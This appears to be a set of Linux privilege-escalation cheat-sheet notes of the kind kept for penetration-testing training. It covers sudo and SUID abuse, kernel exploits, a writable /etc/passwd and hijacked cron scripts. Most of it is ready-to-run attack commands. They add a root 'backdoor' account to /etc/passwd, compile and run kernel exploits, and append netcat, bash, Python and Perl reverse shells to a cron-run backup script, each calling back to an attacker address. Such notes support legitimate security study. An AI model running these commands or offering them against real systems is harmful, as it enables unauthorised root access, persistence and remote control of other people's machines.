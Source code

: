 #### Sudo Permissions
###### Binary Permissions
Check [GTFO Bins](https://gtfobins.github.io/#+sudo) for exploitation
###### Scripts
Modify scripts and execute with elevated permissions.

---
#### Writable Passwd
###### Use openssl to get encrypted password
`openssl passwd Pass1!`
###### Openssl for modern systems
`openssl passwd -6 Pass1!`
###### Add superuser to /etc/passwd
`echo "backdoor:ZQg7C2q0JBCJU:0:0:root:/root:/bin/bash" >> /etc/passwd`
###### Switch to new superuser account
`su backdoor`

---
#### Kernel Exploits
Based on the Kernel version and Architecture, (`cat /etc/issue`, `uname -r`, `arch`) 
###### Check for Kernel exploits in Searchsploit
`searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"`
###### Copy the exploit then check for any compilation instructions
`head exploit.c -n 20`
###### Compile following any instructions
`gcc exploit.c -o exploit`
**Note:** If the target has GCC installed, compile it there to simplify the process
###### Transfer to target
[[0.6 File Transfer|File Transfer]]
###### Inspect the File Structure
`file exploit`
###### Run the exploit
`./exploit`

---
#### Insecure File Permissions
If we identify a script that runs regularly which we can modify like with Cron Jobs, we can look to modify the script.
###### Check what the script is doing
`cat /home/user/.scripts/backup.sh`
######  Check your permissions for the script
`ls -lah /home/user/.scripts/backup.sh`
###### Add reverse shell for netcat
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> backup.sh` - adds a reverse shell one liner using netcat which executes in the context of the cronjob owner.
###### Add reverse shell for Bash
`echo 'while true; do bash -i >& /dev/tcp/192.168.118.2/1234 0>&1; sleep 5; done' >> backup.sh`
###### Add reverse shell for Python
`echo "python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.118.2\",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")'" >> backup.sh`
###### Add reverse shell for Perl
`echo "perl -e 'use Socket;\$i=\"192.168.118.2\";\$p=1234;socket(SOCK,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(SOCK,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\"<&SOCK\");open(STDOUT,\">&SOCK\");open(STDERR,\">&SOCK\");exec(\"/bin/bash -i\");};'" >> backup.sh`

---
#### SUID & Capabilities
If the SUID bit is set, check [GTFO Bins](https://gtfobins.github.io/#+sudo) for exploitation.
**Note:** Use `/usr/bin/bash` as well as `/bin/sh` for the recommended command.